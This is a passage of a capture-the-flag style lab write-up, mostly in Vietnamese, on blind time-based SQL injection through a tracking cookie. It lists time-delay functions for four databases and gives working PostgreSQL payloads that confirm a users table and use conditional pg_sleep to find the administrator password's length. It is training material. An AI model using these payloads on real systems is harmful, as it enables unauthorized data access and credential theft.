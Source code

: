 # Lab: Blind SQL injection with time delays and information retrieval

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.

# Overview:

Theo tiêu đề của lab, chúng ta sẽ thực hiện tấn công SQL mà kết quả trở về có độ trễ. Từ đó ta có thêm thời gian thực thi câu lệnh SQL để thực hiện các cuộc tấn công khác.

Goal của chúng ta là cần inject query đối với time delays thích hợp.

Cheat sheet, time-delay mà lab đưa ví dụ khá là nhiều cho các version database. Vì ko biết sử dụng cái nào mình phải mò từng cái

```
Oracle: dbms_pipe.receive_message(('a'),10)
Microsoft: WAITFOR DELAY '0:0:10'
PostgreSQL: SELECT pg_sleep(10)
MySQL: SELECT sleep(10) 
```

# Solution:

```
SELECT trackingId FROM someTable WHERE trackingId = 'vvv' || (<CODE HERE>) || ''
```

**vvv là giá trị của cookie**

Kí tự đầu tiên được inject vào là `'` sau `vvv`, sau đó mình nối với output của code. Tiếp theo là nối với `'`. Đối với Oracle và PostgreSQL, `||` được sử dụng để ghép nối, với Microsoft `+` và  MySQL là `khoảng trắng`.

Đồi với PostgreSQL inject `'||(SELECT pg_sleep(10))||'`, query cần thời gian giải để hoàn thành: 10.241s. Thường thì đối với mình, query mất khoảng 240millis.Vậy thêm 10 đến từ việc inject

![image](https://user-images.githubusercontent.com/115911041/234800969-b0ba8d28-7555-4c02-94a4-c91e27544904.png)


## Xác định tên table và column cũng như là username:

Bây giờ ta đã biết database đang chạy version nào, bước tiếp theo:

- Xác định table `users` có tồn tại hay không

- Xác định columns `username` và `password`

- Tìm Entry của username `administrtor`

Mình đã giảm xuống delay đến 3 secs để cho nó tiện hơn.

`'||(SELECT pg_sleep(3) FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802100-7a17b2a6-0262-4c8f-bfb1-40b98f5e3d28.png)

`'||(SELECT pg_sleep(3)||username||password FROM users LIMIT 1)||'`

![image](https://user-images.githubusercontent.com/115911041/234802664-9461a3b5-b35c-49a8-b45d-fcddb8035404.png)

`'||(SELECT pg_sleep(3)||username||password FROM users WHERE username='administrator')||'`

![image](https://user-images.githubusercontent.com/115911041/234802886-5d458454-fe78-47af-9dce-7e6013a61514.png)

Cả 3 query đều hơn 3 secs, trong khi sử dụng các tên table khác nhau hoặc cột hoặc sử dụng tên username, thì phản hồi có ngay.

Vậy table có tồn tại với column `username` và `password`, bao gồm entry cho `administrator` như là username.

## Xác định độ dài của password

```
'SELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users-- 
```

Nếu 1 trong 2 điều kiện không đúng thì kết quả trả về sẽ không có độ trễ, do đó ta đã biết được rằng username là administrator và độ dài của chuỗi password phải lớn hơn 1.

Ta tiếp tục thử đển khi giá trị độ dài của chuỗi password > 20 thì khi đó kết quả trả về sẽ không có độ trễ. Do đó ta có thể suy ra được độ dài của chuỗi bao gồm 20 kí tự.



